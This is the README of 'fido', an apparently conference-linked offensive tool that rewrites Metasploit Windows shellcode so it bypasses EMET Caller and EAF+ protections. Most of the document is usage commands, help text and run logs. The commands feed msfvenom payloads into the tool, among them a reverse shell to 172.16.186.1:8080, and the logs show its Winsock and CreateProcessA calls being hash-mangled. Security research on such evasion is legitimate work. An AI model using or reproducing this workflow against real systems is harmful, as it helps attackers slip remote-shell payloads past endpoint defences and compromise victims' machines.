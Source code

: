 # fido
Teaching an old shellcode new tricks

Give fido.py a x86 (32 bit or 64 bit) windows shellcode and it will strip off Stephen Fewer's hash API stub and replace it 
with something that bypasses EMET Caller and EAF+ checks but keeps the actual API calls in use.

# WARNING: If the 2nd stage payload uses the hash api from metasploit that loads Win APIs from the Export Address Table and jmp's into them, EMET will catch it.

If the warning didn't make sense, you might want to walk away or read up: 

* REcon BR Slides: https://github.com/secretsquirrel/fido/blob/master/REconBR_2017.pdf
* Defcon 25 Slides: https://github.com/secretsquirrel/fido/blob/master/Defcon_25_2017.pdf
* Demo1 (Hash Mangling POC): https://youtu.be/p3vFRx5dur0
* Demo2 (Tor Exploit POC): https://youtu.be/oqHT6Ienudg

## Usage

Can take input from stdout and output to stdout:
```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/testharness.py -m -b Tcpview.exe -p ExternGPA -t win10  > test.bin
```

Can take input from cmdline (via -s).

Want win7-win10 compatibility?  Use the following command:

```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/fido.py -p ExternGPA -l api-ms-win-core-libraryloader-l1-1-0.dll -d kernel32.dll > test.bin
```

This will use GetProcAddress in api-ms-win-core-libraryloader-l1-1-0.dll import from the kernel32.dll loaded module. 


Help output:

```
[!] -s is required either from cmd line flag or stdin <cat code.bin> | ./fido.py
usage: use "fido.py --help" for more information

This code imports metasploit sourced x86 windows shellcode that employs
Stephen Fewers Hash API stub and replaces it to bypass EMET Caller/EAF checks
and other bolt on mitigations. Accepts msfvenom output from stdin or from disk.
Doesn't do logic checks on provided payload to ensure it is x86 (32bit) or for windows
OS (up to you to be correct)

positional arguments:
  infile
  outfile

optional arguments:
  -h, --help            show this help message and exit
  -b TARGETBINARY, --targetbinary TARGETBINARY
                        Binary that shellcode will be customized to (Optional)
  -t OS, --OSTarget OS  OS target for looking for target DLL Import Tables: winXP, win7, win8, winVista, win10
  -s CODE, --shellcode CODE
                        x86/x64 Windows Shellcode with Stephen Fewers Hash API prepended (from msfvenom) can be from stdin
  -d DLL, --DLLName DLL
                        If you know the DLL in the IAT you are targeting enter this, no need for OS flag.
  -l IMPORTNAME, --Import IMPORTNAME
                        For use with -d and ExternGPA (-p), specify either 'kernel32.dll' or
                        'api-ms-win-core-libraryloader' -- you need to know with import you are targeting.
                        To know, run without -d for a list of candidates. Default is kernel32.dll but not always right!

  -m, --mangle          Mangle metasploit hash apis from their original values (you want to do this)
  -o OUTPUT, --output OUTPUT
                        How you would like your output: [c], [p]ython, c[s]harp Default: stdout.
  -p PARSER_STUB, --parser_stub PARSER_STUB
                        By default this assumes that GetProcAddress (GPA) is in the targetbinary's
                        Import Address Table (IAT) if no targetbinary or DLL name is provided.
                        Four options:
                            GPA  - GPA is in targetbinary IAT (default)
                            LLAGPA - LoadlibraryA(LLA)/GPA is in the targetbinary IAT (smallest shellcode option)
                            ExternGPA -- need DLLName or targetbinary to use
                            ExternLLAGPA -- need DLLName or targetbinary to use
                            ExternGPAFC -- -d kernel32.dll -l kernelbase.dll  # only works on win8 - win10
                            OffsetGPA -- -b target.EXE # static offset to that version of software (target EXE)
                            ExternOffsetGPA -- -b target.DLL -d import_dll # static
  -n, --donotfail       Default: Fail if Stephen Fewers Hash API stub is not there, use -n to bypass
  -M MODE, --mode MODE ASM mode 32 or 64, usually automatic
```

## Other Examples:

 ### ExternGPAFC
Works on Win8-Win10 only.
```
 cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b ~/github/the-backdoor-factory/whois64.exe -m -p ExternGPAFC -t win10 > test.bin
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x5df8d241
[*] Mangling ws2_32.dll!WSAStartup call hash: 0xe6fe222e
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x16f19f04
[*] Mangling ws2_32.dll!connect call hash: 0x76223a2d
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x6d6e1502
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0x44e7a13f
[*] Mangling kernel32.dll!ExitThread call hash: 0x5a4eb474
[*] Mangling kernel32.dll!GetVersion call hash: 0xf1669f77
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x66b4939a
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'ExitThread\x00WSASocketA\x00CreateProcessA\x00kernel32\x00LoadLibraryA\x00RtlExitUserThread\x00ws2_32\x00connect\x00GetVersion\x00WaitForSingleObject\x00ntdll\x00WSAStartup\x00'
[*] Building lookup table
[*] Using ExternGPAFC from  hash: 0x0, import name: kernelbase.dll
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 964

```


 ### ExternOffset
Uses the exact location of GetProcAddress Offset for a particular dll and import dll. In this case, kernel32_10.0.16237_32bit.dll is the target version bianry, and GPA exists in kernel32.dll via (minwin).

```
cat ~/github/metasploit-framework/reverse_shell_x64_8080_172.16.186.1.bin |  ./fido.py -b kernel32_10.0.16237_32bit.dll -d kernel32.dll -m -p ExternOffsetGPA -t win10 > test.bin                          
[*] Length of submitted payload: 0x1cc
[*] Stripping Stripping Fewers 64bit hash stub 
[*] Length of code after stripping: 258
[*] Disassembling payload
[*] Mangling kernel32.dll!LoadLibraryA call hash: 0x89d3d69b
[*] Mangling ws2_32.dll!WSAStartup call hash: 0x23b6665d
[*] Mangling ws2_32.dll!WSASocketA call hash: 0x7c77f885
[*] Mangling ws2_32.dll!connect call hash: 0x78e785f1
[*] Mangling kernel32.dll!CreateProcessA call hash: 0x53e02b59
[*] Mangling kernel32.dll!WaitForSingleObject call hash: 0xcb5b4068
[*] Mangling kernel32.dll!ExitThread call hash: 0xcd188037
[*] Mangling kernel32.dll!GetVersion call hash: 0x6a298791
[*] Mangling ntdll.dll!RtlExitUserThread call hash: 0x1b59416e
[*] Called APIs: ['kernel32.dll!LoadLibraryA', 'ws2_32.dll!WSAStartup', 'ws2_32.dll!WSASocketA', 'ws2_32.dll!connect', 'kernel32.dll!CreateProcessA', 'kernel32.dll!WaitForSingleObject', 'kernel32.dll!ExitThread', 'kernel32.dll!GetVersion', 'ntdll.dll!RtlExitUserThread']
[*] String Table: b'RtlExitUserThread\x00WSAStartup\x00CreateProcessA\x00WaitForSingleObject\x00WSASocketA\x00LoadLibraryA\x00ws2_32\x00GetVersion\x00ExitThread\x00ntdll\x00connect\x00kernel32\x00'
[*] Building lookup table
[*] Loading PE in pefile
[*] Parsing data directories
[*] Found API: loadlibrarya
[*] Found API: getprocaddress
[*] Both LLA/GPA APIs found!
[*] Using ExternOffsetGPA from kernel32.dll hash: 0x6a4abc5b, import name: main_module
[*] Parsing data directories...
[*] GPA offset: 0x710a8
[*] Assembling lookup table stub
[*] Payload complete
[*] Output size: 830
```


